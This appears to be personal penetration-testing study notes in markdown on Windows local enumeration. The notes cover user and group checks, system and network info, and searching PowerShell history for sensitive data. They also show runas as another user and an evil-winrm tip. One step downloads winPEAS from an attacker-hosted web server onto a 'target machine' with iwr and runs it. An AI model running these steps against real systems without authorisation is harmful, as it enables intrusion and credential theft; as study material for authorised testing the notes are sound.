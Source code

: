 # General Info
First things to hunt are
```
- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes
```

first things first
```
whoami
```

for group information
```
whoami /groups
```

for the following commands make sure you start a powershell session
```
powershell
```

now to find info on other users
```
Get-LocalUser
```

for info on all groups
```
Get-LocalGroup
```

Groups to look for are
1. Administrators
2. Backup Operators
3. Remote Desktop Users
4. and Remote Management Users.

Members of _Backup Operators_ can backup and restore all files on a computer, even those files they don't have permissions for. We must not confuse this group with non-standard groups such as _BackupUsers_ in our example.

if you would like to know the users that belong to a specific group you may use
```
Get-LocalGroupMember <groupname>
```
if group name includes spaces `""` double quotes are required

for OS, version, and architecture
```
systeminfo
```

for network information
```
ipconfig /all
```

to get a routing table
```
route print
```

To list all active network connections we can use [_netstat_](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/netstat) with the argument **-a** to display all active TCP connections as well as TCP and UDP ports, **-n** to disable name resolution, and **-o** to show the process ID for each connection.
```
netstat -ano
```

to check all installed applications. We can query [two registry keys](https://devblogs.microsoft.com/scripting/use-powershell-to-find-installed-software/) to list both 32-bit and 64-bit applications in the _Windows Registry_ with the [_Get-ItemProperty_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-itemproperty?view=powershell-7.2) Cmdlet. We pipe the output to **select** with the argument **displayname** to only display the application's names. We begin with the 32-bit applications and then display the 64-bit applications.
```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
for 32 bit look above
for 64 bit look below
```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

However, the listed applications from Listing 15 may not be complete. For example, this could be due to an incomplete or flawed installation process. Therefore, we should always check 32-bit and 64-bit **Program Files** directories located in **C:\\**. Additionally, we should review the contents of the **Downloads** directory of our user to find more potential programs.



to find currently running processes use
```
Get-Process
```

# Plain sight data And search strings

To search the whole machine for a file suffix
```
Get-ChildItem -Path C:\ -Include *.<suffix here> -File -Recurse -ErrorAction SilentlyContinue
```



Someone please write something on RUNAS for the sake of everything it's how you execute as a different user
```
runas /user:backupadmin cmd
```


## Powershell history

A good first check is
```
Get-History
```
but this history can be cleared quite easily so don't count on it having sensitive data

```
(Get-PSReadlineOption).HistorySavePath
```
this shows you the path to a file that should have all Powershell history saved
Then just use the `Type` command to view the contents of said file.

If you `type` the file path above and then pipe it into `FINDSTR` which acts like grep, you can use it to find very interesting info.

> [!tip]
> Look into `evil-winrm`


# Automated Enumeration

## winpeas
run a python web server in the same directory you have winpeas stored
```
python3 -m http.server 80
```

then on the target machine run
```
iwr -uri http://192.168.48.3/winPEASx64.exe -Outfile winPEAS.exe
```
Obviously change the IP you idiot

Then simply run
```
.\winPEAS.exe
```
on the target machine and enjoy the info dump
